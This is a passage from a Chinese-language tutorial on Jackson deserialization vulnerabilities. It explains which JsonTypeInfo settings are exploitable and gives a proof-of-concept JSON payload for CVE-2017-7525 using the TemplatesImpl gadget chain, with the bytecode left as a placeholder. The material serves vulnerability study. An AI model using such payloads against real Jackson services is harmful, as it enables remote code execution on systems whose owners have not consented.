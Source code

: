 
序列化为

```
{"age":20,"name":"shadowtest","object":{"@type":"Boy","length":100}}
```

没有具体的包名在内的类名，因此在后面的反序列化的时候会报错，也就是说这个设置值是不能被反序列化利用的。



#### 3.2.5 JsonTypeInfo.Id.CUSTOM

其实这个值时提供给用户自定义的意思，我们是没办法直接使用的，需要手动写一个解析器才能配合使用，直接运行会抛出异常：



### 3.3 反序列总结

所以按照上述分析，3种情况下可以触发Jackson反序列化漏洞

1、enableDefaultTyping()

2、@JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)

3、@JsonTypeInfo(use = JsonTypeInfo.Id.MINIMAL_CLASS)





## 4. 漏洞利用



### 4.1 CVE-2017-7525（基于TemplatesImpl利用链）

### 环境限制

Jackson 2.6系列 < 2.6.7.1

Jackson 2.7系列 < 2.7.9.1

Jackson 2.8系列 < 2.8.8.1

JDK版本



POC 

```
{
    "object":[
        "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
        {
            "transletBytecodes":["xxx"],
            "transletName":"test",
            "outputProperties":{}
        }
    ]
}
```
